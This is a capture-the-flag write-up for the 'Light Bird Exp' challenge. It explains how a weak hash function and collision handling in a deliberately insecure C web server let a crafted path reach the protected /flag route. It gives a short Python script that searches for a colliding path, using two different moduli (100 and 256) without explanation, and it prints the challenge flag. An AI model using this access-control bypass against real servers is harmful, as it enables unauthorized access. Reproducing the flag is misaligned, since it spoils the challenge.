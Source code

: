 # Light Bird Exp

## Description
This challenge is based on a C web server created by the author, it is a simple and evidently insecure version of route management.

## Solution
In this case a hash table is used to match the routes to the resources, however in the event of a collision the value is moved, therefore with a bad hash function like the one present in the program and for an inefficient width the risk of collision is very high , by exploiting a minor error in the control function it is possible to direct the search function to any resource, evading the controls.

```python

def hash( key:str, mod:int ) -> int:
    hash_value = 0
    for c in key:
        hash_value = (hash_value * 31 + ord(c)) % 4294967296
    return hash_value % mod


pointer = hash( '/flag', 100 )

for i in range( 1000 ):
    if pointer + 1 == hash( f'/flag{i}', 256 ):
        print(f'/flag{i}')
        break

```
## Flag
`CodeVinciCTF{Th15_1s_mY_n3w_r3411y_f4s7_4nd_3ff1c13N7_c_S3rv3r}`

## Author
`sDibuon`


